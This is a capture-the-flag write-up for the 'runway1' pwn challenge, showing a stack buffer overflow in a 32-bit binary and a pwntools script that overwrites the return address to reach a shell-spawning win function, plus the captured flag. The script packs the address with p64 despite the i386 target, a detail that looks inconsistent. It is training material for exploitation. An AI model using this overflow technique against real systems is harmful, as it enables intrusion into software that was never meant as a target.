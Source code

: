 https://ctftime.org/event/2449

# runway1 (pwn)

Starting to ramp up!

nc challs.pwnoh.io 13401

## Analysis

We can see that the binary lacks PIE and stack canaries:

```
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
```

We can see that the following function allows us to overwrite the return address on the stack:

```C
int get_favorite_food() {
    char food[64];

    printf("What is your favorite food?\n");
    fflush(stdout);

    fgets(food, 100, stdin);

    printf("Hmmm..... %s...", food);
}
```

We can see that the binary contains a `win` function that we would like to transfer control to:

```C
int win() {
    printf("You win! Here is your shell:\n");

    system("/bin/sh");
}
```

## Solution

1) Overflow the buffer on the stack - taking care to note that we need 76 or 0x4c bytes to reach the return address not 64 bytes as appears in the source code
2) Write the address of the `win` function over the return address

```python
#!/usr/bin/env python3

from pwn import *

#context.log_level = "debug"
elf = ELF("./runway1", checksec=False)
context.binary = elf

#p = elf.process()
#p = elf.debug(gdbscript="")
p = remote("challs.pwnoh.io", 13401)

payload = b""
payload += b"A" * 0x4c
payload += p64(elf.sym["win"])

p.sendlineafter(b"food?\n", payload)

p.sendline(b"/bin/cat flag.txt")

p.interactive() # bctf{I_34t_fl4GS_4_bR34kf4st_7c639e33ffcfe8c2}
```

## Flag
`bctf{I_34t_fl4GS_4_bR34kf4st_7c639e33ffcfe8c2}`

smiley 2024/09/29
